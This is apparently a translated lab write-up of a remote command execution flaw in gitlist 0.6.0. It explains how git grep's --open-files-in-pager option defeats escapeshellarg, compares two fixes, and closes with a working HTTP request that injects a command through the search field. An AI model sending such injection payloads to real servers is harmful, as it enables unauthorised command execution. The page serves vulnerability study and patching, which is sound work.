




# gitlist 0.6.0 Remote Command Execution Vulnerability

Gitlist is a graphical git repository viewing tool developed in PHP. In its version 0.6.0, there is a command parameter injection problem that can lead to remote command execution vulnerabilities.

## Environment Building

Run the following command to start the vulnerability environment:

```
Docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080` and you will see a repository named `example`.

## Vulnerability Principle

When the user searches the code in the repository, gitlist will call the `git grep` command:

```php
Public function searchTree($query, $branch)
{
    If (empty($query)) {
        Return null;
    }

    $query = escapeshellarg($query);

    Try {
        $results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
    } catch (\RuntimeException $e) {
        Return false;
    }
```

Among them, `$query` is the search keyword, and `$branch` is the branch of the search.

If the value of `$query` entered by the user is `--open-files-in-pager=id;`, the `id` command will be executed:



There are several reasons for this vulnerability:

1. The developer misunderstood the `escapeshellarg` function, causing parameter injection
2. The value of `--g-open-files-in-pager` of `git grep` will be executed directly.

In theory, after $$query = escapeshellarg($query);`, `$query` will become a string enclosed in single quotes. But the premise of the loophole is that the string should appear in the "parameter value" instead of appearing in the option.

We can try the following commands:

```
Git grep -i --line-number -e '--open-files-in-pager=id;' master
```



As shown above, I put `$query` in the position of the value of the `-e` parameter. At this time, it is just a string and will not be treated as a parameter `--open-files-in-pager` .

This should be the best fix for this vulnerability, and it is also a solution to the git official case where the pattern may be user input (the following description is from man-page):

> -e
> The next parameter is the pattern. This option has to be used for patterns starting with - and should be used in scripts passing user input to grep. Multiple patterns are combined by
> or.

Of course, developers of gitlist use another fix:

```php
Public function searchTree($query, $branch)
{
    If (empty($query)) {
        Return null;
    }
    $query = preg_replace('/(--??[A-Za-z0-9\-]+)/', '', $query);
    $query = escapeshellarg($query);
    Try {
        $results = $this->getClient()->run($this, "grep -i --line-number -- {$query} $branch");
    } catch (\RuntimeException $e) {
        Return false;
    }
```

First remove the illegal characters starting with `-` with `preg_replace`, then put `$query` after `--`. In the command line parser, `--` means that the following sections will no longer contain argument options:

> A - signals the end of options and disables further option processing. Any arguments after the -- are treated as filenames and arguments. An argument of - is equivalent to --.
>
> If arguments remain after option processing, and neither the -c nor the -s option has been supplied, the first argument is assumed to be the name of a file containing shell commands. If bash is invoked in this fashion, $0 is set to The name of the file, and the positional parameters are set to the remaining arguments. Bash reads and executes commands from this file, then exits. Bash's exit status is the exit status of the last command executed in the script. , the exit status is 0. An attempt is first made to open the file in the current directory, and, if no file is found, then the shell searches the directories in PATH for the script.

For a simple example, if we need to view a file whose name is `--name`, we can't use `cat --name` to read it, nor can we use `cat '--name'`, but must Use `cat -- --name`. As can be seen from this example, single quotes are not a criterion for distinguishing whether a string is a "parameter value" or an "option".



So the official fix is ​​also acceptable, except that the first step of `preg_replace` affects the normal search function.

## Vulnerability recurrence

Send the following data packet:

```
POST /example/tree/a/search HTTP/1.1
Host: your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html, application/xhtml+xml, application/xml; q=0.9, image/webp, image/apng, */*; q=0.8
Content-Length: 56

Query=--open-files-in-pager=touch /tmp/success;
```

Among them, we are accessing `/example/tree/a/search`, example is the project name, it needs to be an existing project on the target gitlist; a should be the name of the branch under normal circumstances, that is, `"grep - i --line-number {$query} `$branch` in $branch"`, but since our `$query` is treated as a parameter, `$branch` should be used as the search keyword.

If there is no search result, our order will not be executed, so I used the keyword "a", just to ensure that the results can be found, you can also switch to other attempts.

After the packet is sent, use `docker-compose exec web bash` to enter the container. It can be seen that `/tmp/success` has been successfully created:

